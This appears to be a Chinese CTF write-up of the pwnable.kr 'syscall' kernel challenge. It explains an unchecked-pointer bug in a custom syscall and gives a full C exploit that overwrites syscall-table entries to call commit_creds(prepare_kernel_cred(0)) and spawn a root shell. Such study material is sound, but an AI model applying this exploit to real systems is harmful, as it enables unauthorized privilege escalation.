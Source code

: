 ```yaml
---
layout: post
title: pwnable.kr syscall
date: 2023-05-23 14:57 +0800
categories: [ctf,pwn]
tag: [pwn, kernel]
---
```



## 题目描述

* 实现了一个内核模块，里面新增了一个系统调用，用于转成大写
  

从源码可以看到，这里没有对out进行任何校验
```c
asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

Linux系统下，每个进程拥有其对应的`struct cred`，用于记录该进程的uid。内核exploit的目的，便是修改当前进程的cred，从而提升权限。进程本身无法篡改自己的cred，我们需要在内核空间中，通过以下方式来达到这一目的：
`commit_creds(prepare_kernel_cred(0))`

* `prepare_kernel_cred`：创建一个新的cred，参数为0则将cred中的uid, gid设置为0，对应于root用户。* `commit_creds`将这个cred应用于当前进程。此时，进程便提升到了root权限。

这些方法的地址，可以通过`/proc/kallsyms`获取
```bash
/ $ cat /proc/kallsyms |grep commit_creds
8003f56c T commit_creds
8044548c r __ksymtab_commit_creds
8044ffc8 r __kstrtab_commit_creds
/ $ cat /proc/kallsyms |grep prepare_kernel_cred
8003f924 T prepare_kernel_cred
80447f34 r __ksymtab_prepare_kernel_cred
8044ff8c r __kstrtab_prepare_kernel_cred
```

## 解法一：替换系统调用表地址
因为地址`0x8003f56c`的0x6c会受到SYS_UPPER这个自建系统调用的影响，因此考虑地址`0x8003f560`,此时只要把其前面的内容换成无意义指令即可。`0x90(nop)`不知道为何无法成功。
```asm
inc eax ; => \x40
```
### 寻找合适的系统调用
* 在`https://x86.syscall.sh/`上，可以找到所有的系统调用和他的参数
* 简单试了几个，如下目前是可用的，可以发现，几个参数没所谓

```bash
10 unlink (const char *pathname)
13 time (time_t *tloc)
25 stime (time_t *tptr)
93 ftruncate (unsigned int fd, unsigned long length)
100 fstatfs	(unsigned int fd, struct statfs *buf)
```


## 参考exp


```c
#include <stdio.h>
#include <stdlib.h>

#define SYS_CALL_TABLE 0x8000e348 // manually configure this address!!
#define SYS_UPPER 223
unsigned int** sct;

unsigned int EXIT = 1;
unsigned int UNLINK = 10;

int main(int argc, char **argv){
    sct = (unsigned int**)SYS_CALL_TABLE;

    syscall(SYS_UPPER, "\x40\x40\x40\x40\x40\x40\x40\x40\x40\x40\x40\x40", (unsigned int**)(0x8003f560));
	
    syscall(SYS_UPPER, "\x24\xf9\x03\x80", &sct[EXIT]); //prepare_kernel_cred
    syscall(SYS_UPPER, "\x60\xf5\x03\x80", &sct[UNLINK]); //commit_creds

    syscall(UNLINK, syscall(EXIT, 0));

    system("/bin/sh");
    return 0;
}
```

